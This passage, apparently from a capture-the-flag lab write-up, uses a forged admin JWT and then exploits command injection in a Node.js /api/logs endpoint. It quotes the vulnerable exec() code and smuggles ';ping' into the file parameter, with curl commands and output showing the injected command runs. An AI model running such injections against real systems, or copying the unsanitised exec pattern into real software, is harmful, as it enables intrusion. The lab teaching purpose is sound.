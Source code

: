 
`/api/priv` confirms that this token has the admin role:



    oxdf@hacky$ curl -s 'http://10.10.11.120/api/priv' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq .
    {
      "creds": {
        "role": "admin",
        "username": "theadmin",
        "desc": "welcome back admin"
      }
    }



### Command Injection

#### Theory

The code that I suspect will be vulnerable to command injection is:



    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }



`exec` is a dangerous
[command](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/exec),
as it will execute the given string. `${file}` is passed in as a
parameter to `/api/logs`. With control over `${file}`, I can make
`getLogs` into something like:



    git log --oneline; [any command]



#### POC - ping

With access as theadmin, I'll try the command injection from above. I'll
start `tcpdump` to listen for ICMP packets, and pass
`file=;ping -c 1 10.10.14.6` (url encoded with `+` for space):



    oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8"
    "80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nPING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.\n64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=75.8 ms\n\n--- 10.10.14.6 ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 75.768/75.768/75.768/0.000 ms\n"
